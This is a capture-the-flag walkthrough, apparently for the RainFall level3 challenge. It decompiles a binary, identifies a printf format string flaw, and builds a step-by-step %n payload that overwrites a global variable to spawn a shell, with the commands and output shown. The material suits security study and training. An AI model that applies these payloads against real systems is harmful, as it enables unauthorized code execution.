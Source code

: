 # Walkthrough

## Reversing

Let's reverse this thing:
```c
void main(void)
{
    v();
    return;
}

void v(void)
{
    char local_20c [520];

    fgets(local_20c,512,stdin);
    printf(local_20c);
    if (m == 64) {
        fwrite("Wait what?!\n",1,12,stdout);
        system("/bin/sh");
    }
    return;
}
```

Pretty obvius, it's clear that this is a format string vuln.

## Format String

We can do something like this to print the stack:
```bash
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

This works, because we instruct the printf-function to retrieve five parameters
from the stack and display them as 8-digit padded hexadecimal numbers.

Isn't it cool? I learned from this vuln existance in `42ctf.org`, so It's cool
to see that a rainfall challenge has it also.

Back then I needed to loop a list and print the `char*` of the last node, this
time is different, we probably need to change the value of `m`.

Let's play a little, and see if we can see our string in the stack:
```bash
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

To make it clear, let's run:
```bash
level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
```

We can see our input in the 4 position.

Since the binary does not have `PIE`, the address are always the same, so...

`printf` can also index to an arbitrary "argument" with the following syntax:
`%n$x` (where `n` is the decimal index of the argument you want). As an example,
if we want to leak our own buffer:
```bash
echo -e 'A%4$c' | ./level3
```

That would print our `A`, and the format `%4$c` that will be our `A`.

This is cool because with this vuln we can write an address, and dereference it
with `%4$s`, but, what we need to do is to overwrite the value of `m`...

## Exploit

The holy grail of exploitation is to take control of the instruction pointer
of a process. In most cases the instruction pointer (often named IP or PC) is a
register in the CPU and cannot be modified directly, since only machine
instructions can change it. But if we are able to issue those machine
instructions we already need to have control.

To accomplish this, we can use the `printf` specifier `%n`, that will write the
number of bytes already printed into a variable of our choice.

As an example of `%n`, this would print `i = 6`:
```c
int i;
printf ("foobar%n\n", &i);
printf ("i = %d\n", i);
```

Cool, so we can use `%n` to save the current bytes, but how can we "select"
where to save it? Well, everytime `printf` pops an argument, let's say, `%p`,
we increase the internal stack pointer of the format function by 4 bytes.

So, remember `%n` writes to an address, that means it writes to a memory
location, so, knowing that our string starts at 4 * 4 bytes...

First, obtain the address of the global variable `m`, with a decompiler or with
`nm`, that's the address we want to write to: `0804988c`

So our payload starts with the address we wanna writo to (in little endian):
```printf
printf '\x8c\x98\x04\x08' + "..." | ./level3
```

Then, we need to move the internal stack pointer 4 bytes, take this for
example:
```bash
level3@RainFall:~$ ./level3
AAAA%p%p%p%c
AAAA0x2000xb7fd1ac00xb7ff37d0A
```

We move the internal pointer 3 * 4 bytes, we do that with three `%p`, so next
time `printf` "reads an argument" from the stack, it will be from the start of
our format string, that's why the `%c` is printing an `A`.

So, `%n` will indeed save the written bytes to the direction we want:
```bash
printf '\x8c\x98\x04\x08%%p%%p%%p%%n\n' | ./level3
```

The only problem now is that we need `m` to be `64`, so, but knowing that `%n`
writes the number of bytes written up to that point... We just need to write
64 bytes before the `%n`, so just add bytes:
```bash
printf '\x8c\x98\x04\x08%%p%%p%%pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%%n\n' | ./level3
```

*Note: our `%p` where printing: `0x2000xb7fd1ac00xb7ff37d0`, thats 25 bytes already, plus the initial address 4 bytes, we need 35 'A'.*

Okey, that worked!

But, since the input ends, `/bin/sh` exits, we need to send the payload and
restore our stdin as input as we did in previous levels, let's create a script.

Check `./resources/exploit.sh`.

And that's it, another level, gg ez.
